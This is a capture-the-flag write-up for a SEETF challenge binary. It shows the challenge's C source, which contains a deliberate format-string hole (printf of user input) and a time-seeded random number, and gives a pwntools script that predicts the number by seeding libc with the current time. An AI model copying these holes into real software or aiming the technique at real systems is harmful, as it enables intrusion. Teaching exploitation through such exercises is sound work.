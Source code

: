 Before we start you need to download the binary : [Binary](./vuln).

Let's start by running the binary and see what's in there : 

````console 
┌──(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf/distrib]
└─$ ./vuln
Welcome to SEETF!
Please enter your name to register:
IronByte
Welcome: IronByte

Let's get to know each other!
1. Do you know me?
2. Do I know you?
1
Guess my favourite number!
500
Not even close!
Let's get to know each other!
1. Do you know me?
2. Do I know you?
2
Whats your favourite format of CTFs?
String
Same! I love
String
too!
````
We can see him asking us for a name, then he is giving us some options to choose from, 1st option was to guess his favourite number, 2nd was to input something then output it back to you.
Let's take a look at the code: 

````C
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

char name[16];
char echo[100];
int number;
int guess;
int set = 0;
char format[64] = {0};


void guess_me(int fav_num){
    printf("Guess my favourite number!\n");
    scanf("%d", &guess);
    if (guess == fav_num){
        printf("Yes! You know me so well!\n");
	    system("cat flag");
        exit(0);
    }
    else {
        printf("Not even close!\n");
    }
       
}


int main() {

mat1:
    printf("Welcome to SEETF!\n");
    printf("Please enter your name to register: %s\n", name);
    read(0, name, 16);

    printf("Welcome: %s\n", name);

    while(1) {
mat2:
        printf("Let's get to know each other!\n");
        printf("1. Do you know me?\n");
        printf("2. Do I know you?\n");

mat3:
        scanf("%d", &number);


        switch (number)
        {
            case 1:
                srand(time(NULL));
                int fav_num = rand() % 1000000;
		        set += 1;
mat4:
                guess_me(fav_num);
                break;

            case 2:
mat5:
                printf("Whats your favourite format of CTFs?\n");
		        read(0, format, 64);
                printf("Same! I love \n");
		        printf(format);
                printf("too!\n");
                break;

            default:
                printf("I print instructions 4 what\n");
		if (set == 1)
mat6:
                    goto mat1;
		else if (set == 2)
		    goto mat2;
		else if (set == 3)
mat7:
                    goto mat3;
		else if (set == 4)
                    goto mat4;
		else if (set == 5)
                    goto mat5;
		else if (set == 6)
                    goto mat6;
		else if (set == 7)
                    goto mat7;
                break;
        }
    }
    return 0;
}
````

The first thing to notice was that there was a guess_me function out of the main function that asks for a guess number, then try to compare it with another number 'fav_num' that was randomly generated then if your guess is right it will cat for you the flag. Anyway, looking more at the code made me notice another thing which is a critical vulnerability in the code. It was the **'printf (format)'**, actually that print is vulnerable to [*the format string vulnerability*](https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf) because we are not specifying the format of each variable passed through the **print ()** function, which can let you read/write data from the stack so the first thing that come to my mind was to try to overwrite the value of that **favorite_number** into a number that I know then try to call the *guess_me* function then I noticed that the value of favorite number will be always randomized. Anyway, that idea was not good enough to solve the puzzle,  I took a look at the option number 1 and it comes to me the idea of just handling the 2 lines **srand (time (NULL)); int fav_num = Rand () % 1000000;** by myself, by importing the libc library and calling the *time* and the *srand* functions from there to just give me the same random value that the *srand* is given, after that just passing that value to the *guess_me* function to get the flag. That idea was much easier to implement than using the format string vulnerability for me.
Here's the exploit that i made :
````python
from pwn import *
from time import time
from ctypes import CDLL

# Target = remote('challenge.404ctf.fr', 31720)
target = process('./distrib/vuln') #You have got to change your own path of the binary.
# target = remote('fun.chall.seetf.sg', 50001)

# Including the libc library.
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')

# Getting to the input of the first option.
screen = target.recvuntil(b"register:")
target.sendline(b"Ironbyte")
screen = target.recvuntil(b"you?")
target.sendline(b"1")
screen = target.recvline()

# Passing down the current time and generating the Right Number.
libc.srand(int(time()))
generated_Number = libc.rand() % 1000000  
target.sendline(str(generated_Number).encode()) 

# Gdb.attach(target, gdbscript='b* 00400668')

target.interactive()
target.close()
```` 

````console
┌──(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ python3 exploit.py
[+] Starting local process './distrib/vuln': pid 607
[*] Switching to interactive mode
Guess my favourite number!
Yes! You know me so well!
cat: flag: No such file or directory
[*] Got EOF while reading in interactive
$
````
feel free to add your own flag if you are testing locally cuz i'm too lazy to add one :).


